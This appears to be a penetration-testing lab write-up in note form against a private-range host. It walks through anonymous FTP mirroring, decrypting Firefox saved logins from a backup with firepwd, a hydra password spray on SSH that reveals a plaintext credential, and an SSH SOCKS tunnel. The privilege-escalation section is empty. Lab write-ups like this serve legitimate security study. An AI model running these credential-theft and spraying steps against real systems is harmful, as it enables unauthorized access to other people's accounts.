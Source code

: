 ## Metadata
- Anonymous login enabled at port 21
	- Run `wget -m --no-passive-ftp ftp://anonymous:@192.168.133.110` to download everything.![[Pasted image 20240315122724 1 1 1 1.png]]
- One can find `.mozilla` directory containing `logins.json` and `key4.db` under `192.168.133.110/interns/backup/users/malika/.mozilla/firefox/3ot0ydzb.default`.![[Pasted image 20240315125252 1 1 1 1.png]]
	- https://github.com/lclevy/firepwd
	- Run `python3 firepwd.py -d ../../loot/192.168.133.110/interns/backup/users/malika/.mozilla/firefox/3ot0ydzb.default` to retrieve potential password for user `malika`![[Pasted image 20240315124944 1 1 1 1.png]]![[Pasted image 20240315124915 1 1 1 1.png]]
	- Copy and paste all potential password into `malika_pass.txt`.![[Pasted image 20240315125031 1 1 1 1.png]]
	- Run `hydra -l malika -P malika_pass.txt -e nsr 192.168.133.110 ssh` to spray the password against SSH and identify one valid pair of credential as `malika:Anisoptera_Odonata4!`.![[Pasted image 20240315125134 1 1 1 1.png]]
- Run `ss -tlnp` will discover 2 more ports are open but unreachable because `27017` is listening on localhost and `3000` potentially blocked by firewall.![[Pasted image 20240315131928 1 1 1 1.png]]
# Tunneling 
- `ssh -v -N -D 9999 malika@192.168.133.110`![[Pasted image 20240315131650 1 1 1 1.png]]
- ![[Pasted image 20240315131748 1 1 1 1.png]]
# Exploitation
- Login through SSH by `ssh malika@192.168.133.110`
- ![[Pasted image 20240315125337 1 1 1 1.png]]
# PrivEsc
